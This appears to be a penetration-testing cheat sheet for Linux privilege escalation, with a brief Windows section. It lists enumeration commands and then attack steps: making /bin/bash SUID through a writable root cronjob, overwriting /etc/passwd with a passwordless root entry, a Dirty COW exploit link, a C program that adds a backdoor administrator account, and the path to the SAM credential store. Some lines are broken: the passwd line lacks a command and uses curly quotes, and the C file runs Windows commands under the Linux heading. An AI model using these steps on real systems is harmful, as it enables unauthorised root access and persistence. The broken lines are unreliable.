 # LINUX

## Do this first
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
```

## Find OS version
```
cat /etc/*-release
uname -i
lsb_release -a
```
## Logged in user
```
id
whoami
pwd
```
## Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
## curently running processes
```
ps aux
netstat -antup
```
## What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## use a script to find the answers
```
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## User editable cronjobs
```
crontab -l
```

## Application based cron jobs
```
ls -all /etc/cron.d
```
## if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

## Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

## Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

## If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```
# WINDOWS

## SAM file path
```
C:\Windows\System32\Config
```

